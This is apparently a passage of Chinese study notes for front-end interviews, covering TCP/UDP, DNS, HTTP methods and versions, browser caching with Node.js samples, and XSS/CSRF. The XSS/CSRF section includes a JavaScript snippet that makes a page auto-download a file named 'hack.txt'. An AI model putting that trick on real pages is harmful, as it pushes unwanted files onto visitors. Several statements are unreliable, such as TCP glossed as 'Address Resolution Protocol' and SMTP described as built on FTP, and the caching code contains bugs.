    * 为什么是四次挥手,不是三次挥手

      而断开连接的时候,一个方向的断开,只是说明该方向数据已传输完毕,而另一个方向或许还有数据,所以得等到另一个方向数据也全部传输完成后,才能执行第三次挥手

  - 对keep-alive的理解

    HTTP1.0 中默认是在每次请求/应答，客户端和服务器都要新建一个连接，完成之后立即断开连接，这就是短连接。当使用Keep-Alive模式时，Keep-Alive功能使客户端到服务器端的连接持续有效，当出现对服务器的后继请求时，Keep-Alive功能避免了建立或者重新建立连接，这就是长连接。其使用方法如下：

      - HTTP1.0版本是默认没有Keep-alive的（也就是默认会发送keep-alive），所以要想连接得到保持，必须手动配置发送Connection: keep-alive字段。若想断开keep-alive连接，需发送Connection:close字段；
      - HTTP1.1规定了默认保持长连接，数据传输完成了保持TCP连接不断开，等待在同域名下继续用这个通道传输数据。如果需要关闭，需要客户端发送Connection：close首部字段。

    - Keep-Alive的建立过程：

      - 客户端向服务器在发送请求报文同时在首部添加发送Connection字段
      - 服务器收到请求并处理 Connection字段
      - 服务器回送Connection:Keep-Alive字段给客户端
      - 客户端接收到Connection字段
      - Keep-Alive连接建立成功

    - 服务端自动断开过程（也就是没有keep-alive）：

      - 客户端向服务器只是发送内容报文（不包含Connection字段）
      - 服务器收到请求并处理
      - 服务器返回客户端请求的资源并关闭连接
      - 客户端接收资源，发现没有Connection字段，断开连接

    - 客户端请求断开连接过程：

      - 客户端向服务器发送Connection:close字段
      - 服务器收到请求并处理connection字段
      - 服务器回送响应资源并断开连接
      - 客户端接收资源并断开连接

    - 开启Keep-Alive的优点：

      - 较少的CPU和内存的使⽤（由于同时打开的连接的减少了）；
      - 允许请求和应答的HTTP管线化；
      - 降低拥塞控制 （TCP连接减少了）；
      - 减少了后续请求的延迟（⽆需再进⾏握⼿）；
      - 报告错误⽆需关闭TCP连；

    - 开启Keep-Alive的缺点：

      - 长时间的Tcp连接容易导致系统资源无效占用，浪费系统资源。

  - 页面有多张图片，HTTP是怎样的加载表现？

    - 在HTTP 1下，浏览器对一个域名下最大TCP连接数为6，所以会请求多次。可以用多域名部署解决。这样可以提高同时请求的数目，加快页面图片的获取速度。
    - 在HTTP 2下，可以一瞬间加载出来很多资源，因为，HTTP2支持多路复用，可以在一个TCP连接中发送多个HTTP请求。

  - DNS同时使用TCP和UDP协议？

    DNS占用53号端口，同时使用TCP和UDP协议。
    
    1. 在区域传输的时候使用TCP协议

      辅域名服务器会定时（一般3小时）向主域名服务器进行查询以便了解数据是否有变动。如有变动，会执行一次区域传送，进行数据同步。区域传送使用TCP而不是UDP，因为数据同步传送的数据量比一个请求应答的数据量要多得多。

    2. 在域名解析的时候使用UDP协议

      客户端向DNS服务器查询域名，一般返回的内容都不超过512字节，用UDP传输即可。不用经过三次握手，这样DNS服务器负载更低，响应更快。

  - DNS迭代查询与递归查询

    - 递归查询(我们向本地 DNS 服务器发送请求的方式)
    
      查询请求发出后，域名服务器代为向下一级域名服务器发出请求，最后向用户返回查询的最终结果。使用递归 查询，用户只需要发出一次查询请求。

    - 迭代查询(本地 DNS 服务器向其他域名服务器请求)
    
      查询请求后，域名服务器返回单次查询的结果。下一级的查询由用户自己请求。使用迭代查询，用户需要发出 多次的查询请求。

  - DNS 记录和报文

    DNS 服务器中以资源记录的形式存储信息，每一个 DNS 响应报文一般包含多条资源记录。一条资源记录的具体的格式为（Name，Value，Type，TTL）

    其中 TTL 是资源记录的生存时间，它定义了资源记录能够被其他的 DNS 服务器缓存多长时间。

    常用的一共有四种 Type 的值，分别是 A、NS、CNAME 和 MX ，不同 Type 的值，对应资源记录代表的意义不同：

    - 如果 Type = A，则 Name 是主机名，Value 是主机名对应的 IP 地址。因此一条记录为 A 的资源记录，提供了标 准的主机名到 IP 地址的映射。
    - 如果 Type = NS，则 Name 是个域名，Value 是负责该域名的 DNS 服务器的主机名。这个记录主要用于 DNS 链式 查询时，返回下一级需要查询的 DNS 服务器的信息。
    - 如果 Type = CNAME，则 Name 为别名，Value 为该主机的规范主机名。该条记录用于向查询的主机返回一个主机名 对应的规范主机名，从而告诉查询主机去查询这个主机名的 IP 地址。主机别名主要是为了通过给一些复杂的主机名提供 一个便于记忆的简单的别名。
    - 如果 Type = MX，则 Name 为一个邮件服务器的别名，Value 为邮件服务器的规范主机名。它的作用和 CNAME 是一 样的，都是为了解决规范主机名不利于记忆的缺点。

### http 请求方式

1. 参考链接：

  [HTTP 请求方法详解](https://www.cnblogs.com/foodoir/p/5911099.html)

  [HTTP 协议以及 HTTP 请求中 8 种请求方法](https://blog.csdn.net/qq_38191191/article/details/78671063)

  [RESTful 介绍和使用教程](https://blog.csdn.net/x541211190/article/details/81141459)

  [「2021」高频前端面试题汇总之计算机网络篇](https://juejin.cn/post/6908327746473033741)

2. 详解：

  - 8 种请求方法

    - get

      获取资源:URL 提交数据，但是不同的浏览器对于 URL 是有限制的,IE 传输的数据量一般限制在 2KB

    - post

      传输实体文本:提交的数据放置在 HTTP 报文实体的主体里,安全性比 GET 方法要高,POST 数据大小无限制

    - head

      获得报文首部:用于确认 URI 的有效性及资源更新的日期时间

    - put

      传输文件:用来传输文件,保存在请求 URI 指定的位置,HTTP/1.1 的 PUT 方法自身不带验证机制,存在安全问题

    - delete

    删除文件:按 URI 删除指定资源

    - options

      询问支持的方法:查询针对请求 URI 指定资源支持的方法（客户端询问服务器可以提交哪些请求方法）

      客户端可以在采取具体资源请求之前，决定对该资源采取何种必要措施，或者了解服务器的性能。该请求方法的响应不能缓存。

      - 主要用途

        - 获取服务器支持的所有HTTP请求方法；
        - 用来检查访问权限。例如：在进行 CORS 跨域资源共享时，对于复杂请求，就是使用 OPTIONS 方法发送嗅探请求，以判断是否有对指定资源的访问权限。

    - trace

      追踪路径:对请求消息的传输路径进行追踪，TRACE 方法是让 Web 服务器端将之前的请求通信还给客户端的方法

    - connect

      用隧道协议连接代理:主要使用 SSL（安全套接层）和 TLS（传输层安全）协议把通信内容加密后经网络隧道传输

  - restful

    基于 HTTP、URI、XML、JSON 等标准和协议，支持轻量级、跨平台、跨语言的架构设计。是 Web 服务的一种新的架构风格。

    - 对网络上所有的资源都有一个 Url（通用资源标志符）

    - 对资源的操作不会改变 Url

    - 同一资源有多种表现形式

      xml、json

    - 所有操作都是无状态的

      基于接口：客户端和服务器端不必保存对方的详细信息，服务器只需要处理当前的请求，不需了解请求的历史。可以更容易的释放资源，让服务器利用 Pool（连接池）技术来提高稳定性和性能。

    - 资源操作
      - get->select
      - post->insert
      - put->update
      - delete->delete

### 网络协议与 7 层结构

1.  参考链接：

    [网络七层协议](https://baike.baidu.com/item/%E7%BD%91%E7%BB%9C%E4%B8%83%E5%B1%82%E5%8D%8F%E8%AE%AE/6056879?fr=aladdin)

    [TCP （传输控制协议）](https://baike.baidu.com/item/TCP/33012)

    [浅谈 ftp 和 sftp 的区别](https://blog.csdn.net/zdb292034/article/details/84531859)

    [Telnet](https://baike.baidu.com/item/TELNET/810597)

    [网络文件系统](https://baike.baidu.com/item/%E7%BD%91%E7%BB%9C%E6%96%87%E4%BB%B6%E7%B3%BB%E7%BB%9F/9719420?fromtitle=NFS&fromid=812203)

    [SMTP](https://baike.baidu.com/item/SMTP/175887)

    [http](https://baike.baidu.com/item/http/243074?fr=aladdin)

    [HTTP1.0，HTTP1.1 和 HTTP2.0 的区别](https://www.jianshu.com/p/7bfec28236c3)

    [HTTP3.0(QUIC 的实现机制)](https://www.cnblogs.com/chenjinxinlove/p/10104854.html)

    [计算机网络基础知识总结](https://juejin.im/post/6885468617580904455)

    [「2021」高频前端面试题汇总之计算机网络篇](https://juejin.cn/post/6908327746473033741)

2.  详解：

    - OSI七层协议

      1. 物理层

         物理电流电路相关的传输介质

      2. 数据链路层

         定义了在单个链路上如何传输数据

      3. 网络层

         定义了能够标识所有结点的逻辑地址，IP 协议

      4. 传输层

         数据流输入、复用与重排序，TCP、UDP 协议

      5. 会话层(非TCP/IP五层协议)

         会话开始、控制、结束，如使用 SQL

      6. 表示层(非TCP/IP五层协议)

         定义数据格式及加密，如使用 ASCII 字符集

      7. 应用层(TCP/IP五层协议在应用层整合了会话层、表示层)

         与其它计算机进行通讯的一个应用，对应应用程序，如使用 TELNET，HTTP，FTP，NFS，SMTP

    - 协议

      - ip

        互联网协议(Internet Protocol)，位于网络层,IP是整个 TCP/IP 协议族的核心，也是构成互联网的基础。IP 能够为运输层提供数据分发，同时也能够组装数据供运输层使用。

      - ICMP

        Internet Control Message Protocol， ICMP 协议主要用于在 IP 主机、路由器之间传递控制消息。ICMP 属于网络层的协议，当遇到 IP 无法访问目标、IP 路由器无法按照当前传输速率转发数据包时，会自动发送 ICMP 消息，ICMP 协议可以看作是 错误侦测与回报机制，让我们检查网络状况、也能够确保连线的准确性。

      - ARP

        地址解析协议Address Resolution Protocol，它能够根据 IP 地址获取物理地址。主机发送信息时会将包含目标 IP 的 ARP 请求广播到局域网络上的所有主机，并接受返回消息，以此来确定物理地址。收到消息后的物理地址和 IP 地址会在 ARP 中缓存一段时间，下次查询的时候直接从 ARP 中查询即可。

      - tcp

        传输控制协议Address Resolution Protocol

        - 面向连接

          面向连接，是指发送数据之前必须在两端建立连接。建立连接的方法是“三次握手”，这样能建立可靠的连接。建立连接，是为数据的可靠传输打下了基础。
        
        - 仅支持单播传输
        
          每条TCP传输连接只能有两个端点，只能进行点对点的数据传输，不支持多播和广播传输方式。
        
        - 面向字节流
        
          TCP不像UDP一样那样一个个报文独立地传输，而是在不保留报文边界的情况下以字节流方式进行传输。
        
        - 可靠传输
        
          对于可靠传输，判断丢包、误码靠的是TCP的段编号以及确认号。TCP为了保证报文传输的可靠，就给每个包一个序号，同时序号也保证了传送到接收端实体的包的按序接收。然后接收端实体对已成功收到的字节发回一个相应的确认(ACK)；如果发送端实体在合理的往返时延(RTT)内未收到确认，那么对应的数据（假设丢失了）将会被重传。
        
        - 提供拥塞控制
        
          当网络出现拥塞的时候，TCP能够减小向网络注入数据的速率和数量，缓解拥塞。
        
        - 提供全双工通信
        
          TCP允许通信双方的应用程序在任何时候都能发送数据，因为TCP连接的两端都设有缓存，用来临时存放双向通信的数据。当然，TCP可以立即发送一个数据段，也可以缓存一段时间以便一次发送更多的数据段（最大的数据段大小取决于MSS）

        1. 可靠连接，有状态连接，每个包会有序号，接收成功会返回 ack，三次握手和四次挥手具体见[页面加载生成过程](#页面加载生成过程)

        2. TCP 拥塞控制(AIMD)算法：

           - 慢启动

             每当建立一个 TCP 连接时或一个 TCP 连接发生超时重传后，该连接便进入慢启动阶段。

             拥塞窗口：避免拥塞的窗口。

             一开始拥塞窗口指数级增加，如果超过阈值，进入拥塞避免阶段，如果报文段丢失重传，重新慢启动

           - 拥塞避免

             每一次报文被完全接收后，拥塞窗口才加 1，拥塞窗口线性增加

           - 快速重传

             对超时重传的改进，当源端收到对同一个报文的三个重复确认时，就确定一个报文段已经丢失，因此立刻重传丢失的报文段，减少不必要的等待时间。

           - 快速恢复

             对丢失恢复机制的改进，快速重传之后，不经过慢启动过程而直接进入拥塞避免阶段

        3. TCP的重传机制

          由于TCP的下层网络（网络层）可能出现丢失、重复或失序的情况，TCP协议提供可靠数据传输服务。为保证数据传输的正确性，TCP会重传其认为已丢失（包括报文中的比特错误）的包。TCP使用两套独立的机制来完成重传，一是基于时间，二是基于确认信息。

          TCP在发送一个数据之后，就开启一个定时器，若是在这个时间内没有收到发送数据的ACK确认报文，则对该报文进行重传，在达到一定次数还没有成功时放弃并发送一个复位信号。

        4. TCP粘包是怎么回事，如何处理?

          TCP 连接会启⽤延迟传送算法 (Nagle 算法), 在数据发送之前缓存他们. 如果短时间有多个数据发送, 会缓冲到⼀起作⼀次发送 (缓冲⼤⼩⻅ socket.bufferSize ), 这样可以减少 IO 消耗提⾼性能.
          
          如果是传输⽂件的话, 那么根本不⽤处理粘包的问题, 来⼀个包拼⼀个包就好了。但是如果是多条消息, 或者是别的⽤途的数据那么就需要处理粘包.

          * 解决⽅案

            * 多次发送之前间隔⼀个等待时间

              只需要等上⼀段时间再进⾏下⼀次 send 就好, 适⽤于交互频率特别低的场景. 缺点也很明显, 对于⽐较频繁的场景⽽⾔传输效率实在太低，不过⼏乎不⽤做什么处理.

            * 关闭 Nagle 算法

              在 Node.js 中你可以通过 socket.setNoDelay() ⽅法来关闭 Nagle 算法, 让每⼀次 send 都不缓冲直接发送。该⽅法⽐较适⽤于每次发送的数据都⽐较⼤ (但不是⽂件那么⼤), 并且频率不是特别⾼的场景。

              如果是每次发送的数据量⽐较⼩, 并且频率特别⾼的, 关闭 Nagle 纯属⾃废武功。

              另外, 该⽅法不适⽤于⽹络较差的情况, 因为 Nagle 算法是在服务端进⾏的包合并情况, 但是如果短时间内客户端的⽹络情况不好, 或者应⽤层由于某些原因不能及时将 TCP 的数据 recv, 就会造成多个包在客户端缓冲从⽽粘包的情况。 (如果是在稳定的机房内部通信那么这个概率是⽐较⼩可以选择忽略的)

            * 进⾏封包/拆包(常⻅)

              给每个数据包在发送之前, 于其前/后放⼀些有特征的数据, 然后收到数据的时候根据特征数据分割出来各个数据包。

        * TCP应用场景

          效率要求相对低，但对准确性要求相对高的场景。因为传输中需要对数据确认、重发、排序等操作，相比之下效率没有UDP高。例如：文件传输（准确高要求高、但是速度可以相对慢）、接受邮件、远程登录。

      - udp

        用户数据报协议User Datagram Protocol

        不可靠连接，无状态连接，常用于多媒体数据流，强调传输性而不是完整性，包错漏不重传

        1. 面向无连接

          首先 UDP 是不需要和 TCP一样在发送数据前进行三次握手建立连接的，想发数据就可以开始发送了。并且也只是数据报文的搬运工，不会对数据报文进行任何拆分和拼接操作。

          - 在发送端，应用层将数据传递给传输层的 UDP 协议，UDP 只会给数据增加一个 UDP 头标识下是 UDP 协议，然后就传递给网络层了
          - 在接收端，网络层将数据传递给传输层，UDP 只去除 IP 报文头就传递给应用层，不会任何拼接操作

        2. 有单播，多播，广播的功能

          UDP 不止支持一对一的传输方式，同样支持一对多，多对多，多对一的方式，也就是说 UDP 提供了单播，多播，广播的功能。

        3. 面向报文

          发送方的UDP对应用程序交下来的报文，在添加首部后就向下交付IP层。UDP对应用层交下来的报文，既不合并，也不拆分，而是保留这些报文的边界。因此，应用程序必须选择合适大小的报文
        
        4. 不可靠性

          - 首先不可靠性体现在无连接上，通信都不需要建立连接，想发就发，这样的情况肯定不可靠。
          - 并且收到什么数据就传递什么数据，并且也不会备份数据，发送数据也不会关心对方是否已经正确接收到数据了。
          - 再者网络环境时好时坏，但是 UDP 因为没有拥塞控制，一直会以恒定的速度发送数据。即使网络条件不好，也不会对发送速率进行调整。这样实现的弊端就是在网络条件不好的情况下可能会导致丢包，但是优点也很明显，在某些实时性要求高的场景（比如电话会议）就需要使用 UDP 而不是 TCP。
        
        5. 头部开销小，传输数据报文时是很高效的。

          UDP 头部包含了以下几个数据：

            - 两个十六位的端口号，分别为源端口（可选字段）和目标端口
            - 整个数据报文的长度
            - 整个数据报文的检验和（IPv4 可选字段），该字段用于发现头部信息和数据中的错误

          因此 UDP 的头部开销小，只有8字节，相比 TCP 的至少20字节要少得多，在传输数据报文时是很高效的。

        * UDP协议为什么不可靠？

          1. 不保证消息交付：不确认，不重传，无超时
          2. 不保证交付顺序：不设置包序号，不重排，不会发生队首阻塞
          3. 不跟踪连接状态：不必建立连接或重启状态机
          4. 不进行拥塞控制：不内置客户端或网络反馈机制

        * 为什么udp不会粘包？

          * TCP协议是⾯向流的协议，UDP是⾯向消息的协议。UDP段都是⼀条消息，应⽤程序必须以消息为单位提取数据，不能⼀次提取任意字节的数据
          * UDP具有保护消息边界，在每个UDP包中就有了消息头（消息来源地址，端⼝等信息），这样对于接收端来说就容易进⾏区分处理了。传输协议把数据当作⼀条独⽴的消息在⽹上传输，接收端只能接收独⽴的消息。接收端⼀次只能接收发送端发出的⼀个数据包,如果⼀次接受数据的⼤⼩⼩于发送端⼀次发送的数据⼤⼩，就会丢失⼀部分数据，即使丢失，接受端也不会分两次去接收。

        * UDP应用场景

          效率要求相对高，对准确性要求相对低的场景。例如：QQ聊天、在线视频、网络语音电话（即时通讯，速度要求高，但是出现偶尔断续不是太大问题，并且此处完全不可以使用重发机制）、广播通信（广播、多播）。

      - ftp 与 sftp

        文件传输协议File Transfer Protocol

        - ftp 文件传输协议，方便数据共享。FTP 客户端通过 FTP 协议在服务器上下载资源
        - sftp 是在 ftp 之上进行加密

      - dns

        域名系统协议Domain Name System，应用层的协议，将域名和 IP 相互映射的分布式数据库系统。DNS 缓存能够加快网络资源的访问。

      - Telnet

        - 是 Internet 远程登录服务的标准协议和主要方式

        - 过程

          1. 通过 ip 与远程建立连接(建立一个 TCP 连接)
          2. 输入用户名和密码，以 VNT 格式发送数据(从本地主机向远程主机发送一个 IP 数据包)
          3. 远程主机返回结果
          4. 撤销 TCP 连接

      - NFS

        基于 UDP/IP 协议,允许远程客户端以与本地文件系统类似的方式，来通过网络进行访问

      - SMTP

        简单邮件传输协议Simple Mail Transfer Protocol,建立在 FTP 文件传输服务上的一种邮件服务

      - SLIP

        串行线路网际协议（Serial Line Internet Protocol)，是在串行通信线路上支持 TCP/IP 协议的一种点对点(Point-to-Point)式的链路层通信协议。

      - PPP

        点对点协议Point to Point Protocol,链路层协议，为同等单元之间传输数据包而设计的，用来通过拨号或专线方式建立点对点连接发送数据，使其成为各种主机、网桥和路由器之间简单连接的一种共通的解决方案。

      - http/https

        - http 请求-响应协议,基于 tcp 协议

          版本：

            * 0.9:交换信息的无序协议，仅仅限于文字
            * 1.0:对每一次请求/响应建立并拆除一次连接,双方规定了连接方式和连接类型
            * 1.1:长连接;引入Entity tag，If-Unmodified-Since, If-Match, If-None-Match等新的请求头来控制缓存;请求头引入了range头域，支持断点续传功能;支持Host头域
            * 2.0:使用了多路复用的技术,做到同一个连接并发处理多个请求;允许服务端推送资源给浏览器;采用二进制格式传输数据,比文本传输更快;header压缩
            * 3.0:QUIC协议:自定义连接机制,自定义重传机制,无阻塞的多路复用,自定义流量控制(在UDP的基础上实现多路复用、0-RTT、TLS加密、流量控制、丢包重传等功能)

          

          - HTTP2的头部压缩算法

            HTTP2的头部压缩是HPACK算法。在客户端和服务器两端建立“字典”，用索引号表示重复的字符串，采用哈夫曼编码来压缩整数和字符串，可以达到50%~90%的高压缩率。

            - 在客户端和服务器端使用“首部表”来跟踪和存储之前发送的键值对，对于相同的数据，不再通过每次请求和响应发送；
            - 首部表在HTTP/2的连接存续期内始终存在，由客户端和服务器共同渐进地更新；
            - 每个新的首部键值对要么被追加到当前表的末尾，要么替换表中之前的值。

            例如，请求一发送了所有的头部字段，第二个请求则只需要发送差异数据，这样可以减少冗余数据，降低开销。

          * https在http之上进行加密
  
              连接过程见[页面加载生成过程](#页面加载生成过程)

    - 传输方式

      - 面向连接型

        在发送数据之前，需要在主机之间建立一条通信线路

      - 面向无连接型

        不要求建立和断开连接，发送方可用于任何时候发送数据。接收端也不知道自己何时从哪里接收到数据。

    - 报文(Message)

      每个终端系统都可以彼此交换的信息

    - 分组(Packets)

      为了从源目的地向端系统发送报文，需要把长报文切分为一个个小的数据块

      报文是由一个个小块的分组组成。在端系统和目的地之间，每个分组都要经过通信链路(communication links) 和分组交换机(switch packets) ，分组要在端系统之间交互需要经过一定的时间，如果两个端系统之间需要交互的分组为 L 比特，链路的传输速率问 R 比特/秒，那么传输时间就是 L / R秒。

    - 丢包(packet loss)

      因为队列是有容量限制的，当多条链路同时发送分组导致输出缓存无法接受超额的分组后，这些分组会丢失

    - 路由

      把不同端系统中的数据包进行存储和转发

      每一台路由器都会有一个 转发表(forwarding table)，当一个分组到达路由器后，路由器会检查分组的目的地址的一部分，并用目的地址搜索转发表，以找出适当的传送链路，然后映射成为输出链路进行转发。

    - 电路交换(circuit switching)

      分组交换不会预留每次端系统之间交互分组的缓存和链路传输速率，所以每次都会进行排队传输；而电路交换会预留这些信息。

    - 节点总时延(total nodal delay)

      分组会涉及到四种最主要的时延：节点处理时延(nodal processing delay)、排队时延(queuing delay)、传输时延(total nodal delay)和传播时延(propagation delay)

      节点处理时延分为两部分，第一部分是路由器会检查分组的首部信息；第二部分是决定将分组传输到哪条通信链路所需要的时间。

      在队列排队转发过程中，分组需要在队列中等待发送，分组在等待发送过程中消耗的时间被称为排队时延。

      队列 是路由器所用的主要的数据结构。传输时延是理论情况下单位时间内的传输比特所消耗的时间。传输时延通常也在毫秒到微秒级。

      从链路的起点到路由器 B 传播所需要的时间就是 传播时延。

    - 吞吐量

      性能测度是端到端的吞吐量。假如从主机 A 向主机 B 传送一个大文件，那么在任何时刻主机 B 接收到该文件的速率就是 瞬时吞吐量(instantaneous throughput)。如果该文件由 F 比特组成，主机 B 接收到所有 F 比特用去 T 秒，则文件的传送平均吞吐量(average throughput) 是 F / T bps。

    - 通信分类

      - 单播

        1对1

      - 广播

        1对多

      - 多播

        1对多（限定某一组）

      - 任播
      
        从许多目标机群中选出一台最符合网络条件的主机作为目标主机发送消息。然后被选中的特定主机将返回一个单播信号，然后再与目标主机进行通信。

    - 物理媒介(phhysical medium)

      比特经过传输的过程所跨越的媒介

      如双绞铜线、同轴电缆、多模光纤榄、陆地无线电频谱和卫星无线电频谱。大致分为两种：引导性媒介和非引导性媒介。

### 强制缓存和协商缓存

1. 参考链接：

   [强制缓存（200）和协商缓存（304）整理](https://blog.csdn.net/zl399615007/article/details/84534884)

   [强制缓存和协商缓存有什么区别](https://www.jianshu.com/p/1a1536ab01f1)

   [彻底弄懂强缓存与协商缓存](https://www.jianshu.com/p/9c95db596df5)

   [从 10 多秒到 1.05 秒！前端性能优化实践](https://mp.weixin.qq.com/s/84LXNp0JLgQrV_ylr4u8zg)

   [写一篇前端资源缓存机制](https://juejin.cn/post/6975036358943326238)

   [写给中高级前端关于性能优化的9大策略和6大指标 | 网易四年实践](https://juejin.cn/post/6981673766178783262)

2. 详解：

   - 图解

      
      

   - 强制缓存

     浏览器在请求某一资源时，会先获取该资源缓存的 header 信息，判断是否命中强缓存（cache-control 和 expires 信息），若命中，从缓存中获取资源信息，包括缓存 header 信息，本次请求不会与服务器通信。状态码：200（from cache）

     - 相关 header

       - expires:强制缓存过期时间

          这是 http1.0 时的规范，它的值为一个绝对时间的 GMT 格式的时间字符串，如 Mon,10Jun201521:31:12GMT ，如果发送请求的时间在 expires 之前，那么本地缓存始终有效，否则就会发送请求到服务器来获取资源。

       - cache-control:更细致的 expires,优先级高于 expires，其值包含：
         - public(可以被所有的用户缓存，包括终端用户和 CDN 等中间代理服务器),private(只能被终端用户的浏览器缓存，不允许 CDN 等中继缓存服务器对其缓存)
         - no-cache不使用本地缓存。需要使用缓存协商，先与服务器确认返回的响应是否被更改，如果之前的响应中存在 ETag ，那么请求的时候会与服务端验证，如果资源未被更改，则可以避免重新下载。
         - no-store直接禁止游览器缓存数据，每次用户请求该资源，都会向服务器发送一个请求，每次都会下载完整的资源。
         - max-age(过期时间,用于普通缓存)
         - s-maxage(代理缓存,优先级高于 max-age/Expires,如 CDN 缓存)
         - min-fresh(可以接收响应时间小于当前时间加上指定时间的响应),max-stale(可以接收超时的响应)

         这是 http1.1 时出现的 header 信息，主要是利用该字段的 max-age 值来进行判断，它是一个相对值；资源第一次的请求时间和 Cache-Control 设定的有效期，计算出一个资源过期时间，再拿这个过期时间跟当前的请求时间比较，如果请求时间在过期时间之前，就能命中缓存，否则未命中

   - 协商缓存

     如果没有命中强制缓存，浏览器会发送请求到服务器，请求会携带第一次返回的有关缓存的 header 字段信息（Last-Modifued/If-Modified-Since 和 Etag/If-None-Match），由服务器根据 header 信息来比对结果是否协商缓存命中。若命中，则服务器返回新的响应 header 信息更新缓存中的对应 header 信息，但是不返回资源内容，它会告知浏览器可以直接从缓存获取；否则返回最新的资源内容。状态码：304（not modified）

     - 相关 header

       - Last-Modified(响应资源的最后修改时间)
       - If-Modified-Since(资源过期时，如有 Last-Modified，请求服务器会带上此请求时间，如 Last-Modified 时间大于 if-modified-since，则返回最新资源，HTTP 200，否则响应 HTTP 304)
       - Etag(服务器响应时，告诉浏览器当前资源在服务器的唯一标识（生成规则由服务器决定）。Apache 中，ETag 的值，默认是对文件的索引节（INode），大小（Size）和最后修改时间（MTime）进行 Hash 后得到的。)
       - If-None-Match(资源过期时，如有 Etag，请求服务器会带上 if-none-match(值是 Etag 的值)，由服务器决定返回 200 或 304)
       - 优先级：ETag>Last-Modified

     - 为什么既有 Last-Modified 还有 Etag?Last-Modified 比较难解决的问题:

       - 文件周期性变化，文件仅仅改变的修改时间，而不改变内容，导致重新 get
       - 文件变化特别快，需要用到 If-Modified-Since，能检查到的粒度是秒级
       - 某些服务器不能精确的得到文件的最后修改时间

     - 用户的行为对缓存的影响

       - 对 Expires/Cache-Control 有效：地址栏回车/页面链接跳转/新开窗口/前进后退
       - 对 Expires/Cache-Control 有效：F5 刷新/Ctrl+F5 强制刷新
       - 对 Last-Modified/Etag 有效：地址栏回车/页面链接跳转/新开窗口/前进后退/F5 刷新
       - 对 Last-Modified/Etag 有效：Ctrl+F5 强制刷新

     - Last-Modified/If-Modified-Since

        二者的值都是 GMT 格式的时间字符串，具体过程：

          * 浏览器第一次跟服务器请求一个资源，服务器在返回这个资源的同时，在 response 的 header 加上 Last-Modified字段，这个 header 字段表示这个资源在服务器上的最后修改时间。

          * 浏览器再次跟服务器请求这个资源时，在 request 的 header 上加上 If-Modified-Since 字段，这个 header 字段的值就是上一次请求时返回的 Last-Modified 的值。

          * 服务器再次收到资源请求时，根据浏览器传过来 If-Modified-Since 和资源在服务器上的最后修改时间判断资源是否有变化，如果没有变化则返回 304NotModified ，但是不会返回资源内容；如果有变化，就正常返回资源内容。当服务器返回 304NotModified 的响应时， response header 中不会再添加 Last-Modified的header ，因为既然资源没有变化，那么 Last-Modified 也就不会改变，这是服务器返回 304 时的 response header。

          * 浏览器收到 304 的响应后，就会从缓存中加载资源。

          * 如果协商缓存没有命中，浏览器直接从服务器加载资源时，Last-Modified 的 Header 在重新加载的时候会被更新，下次请求时，If-Modified-Since 会启用上次返回的Last-Modified 值。

       - Etag/If-None-Match

          这两个值是由服务器生成的每个资源的唯一标识字符串，只要资源有变化就这个值就会改变；其判断过程与 Last-Modified、If-Modified-Since 类似，与 Last-Modified 不一样的是，当服务器返回 304NotModified 的响应时，由于 ETag 重新生成过， response header中还会把这个 ETag 返回，即使这个 ETag 跟之前的没有变化。

          Last-Modified与ETag是可以一起使用的，服务器会优先验证ETag，一致的情况下，才会继续比对Last-Modified，最后才决定是否返回304。

   - 样例代码

      Expires
      ```js
      res.writeHEAD(200, {
          Expires: new Date('2021-6-18 12: 51: 00').toUTCString(),
      })
      ```

      Cache-Control
      ```js
      res.writeHEAD(200, {
          'Cache-Control': 'maxage=1000',
      })
      res.writeHEAD(200, {
          'Cache-Control': 'no-cache',
      })
      res.writeHEAD(200, {
          'Cache-Control': 'public, max-age=31600',
      })
      ```

      Last-Modifyed/if-modified-since
      ```js
      const http = require('http');
      const fs = require('fs');
      const url = require('url');
      http.creatServer((req, res) => {
          const { pathname } = url.parse(req.url);
          // 获取文件日期
          fs.stat(`www/${pathname}`, (err, stat) => {
            if (err) {
              res.writeHeader(404);
              res.write('Not Found');
              res.end();
            } else {
              if (req.headers['if-modified-since']) {
                const oDate = new Date(req.headers['if-modified-since']);
                const time_client = Math.floor(oDate.getTime() / 1000);
                const time_server = Math.floor(stat.mtime.getTime() / 1000);
                if (time_server > time_client) { // 服务器的文件时间大于客户端
                  sendFileToClient();
                } else {
                  res.writeHeader(304);
                  res.write('Not Modified');
                  res.end();
                }
              } else {
                sendFileToClient();
              }

              function sendFileToClient() {
                let rs = fs.createReadStream(`www/${pathname}`);
                res.setHeader('Last-Modifyed', state.mtime.toGMTString());
                rs.pipe(res);
                rs.on('error', err => {
                  res.writeHeader(404);
                  res.write('Not Found');
                  res.end();
                })
              }
            }
          })
      }).listen(8080);
      ```

      etag
      ```js
      const etag = require('etag')
      res.setHeader('etag', etag(data));
      ```

### xss 和 csrf

1. 参考链接：

   [XSS 和 CSRF 简述及预防措施](https://www.cnblogs.com/yangsg/p/10621496.html)

   [xss 注入方法及验证方法](https://blog.51cto.com/zhouanya/1909746)

   [XSS 及 CSRF 攻击防御](https://blog.csdn.net/zl834205311/article/details/81773511)

   [几个常见面试题，工作中也经常用到](https://mp.weixin.qq.com/s/IvWGkm5pn3vjbLUB-SvXkQ)

2. 详解：

   - xss(跨站脚本攻击)

     在网站写入恶意代码，当别人浏览网页时，导致恶意脚本被执行，获取用户隐私数据。

     - 反射型：发送带恶意脚本的 get、post 请求(如 websocket 对话)，后端没做过滤，就直接向其它用户展示
     - 持久型：提交恶意 input，后端没做过滤，保存到数据库，再向其它用户展示
     - DOM 型：将攻击脚本写在 URL 中，诱导用户点击该 URL，如果 URL 被解析，那么攻击脚本就会被运行。document.write(url 上的参数)

     预防方法：对输入进行检查、过滤和转义。

   - csrf(跨站请求伪造)

     用户带着 A 网站的 cookie，访问 B 网站时，被 B 网站窃取后，B 网站向 A 网站发送伪造请求，使 B 网站获得用户在 A 网站的权限。

     预防方法：

     - 验证码:图像识别，提高攻击难度
     - referer:header 的 referer 记录了来源地址，检测到 referer 不是本网站的请求，则拒绝
     - 令牌:请求头带 token，验证身份，如 jwt

     CSRF对CORS不起作用：

     - form 提交不通过 CORS 检测
     - 通过 xhr 及 fetch 进行提交非简单请求被 CORS 拦住，简单请求不拦截，会造成攻击

   - 其它

     打开网页，自动生成危险文件下载到本地

     ```js
     var file = new File(["hack"], "hack.txt", { type: "text/plain" });
     var objectURL = URL.createObjectURL(file);
     var a = document.createElement("a");
     a.href = objectURL;
     a.download = "hack.txt";
     document.body.appendChild(a);
     a.click();
     ```

### 避免CDN为PC端缓存移动端页面

1. 参考链接：

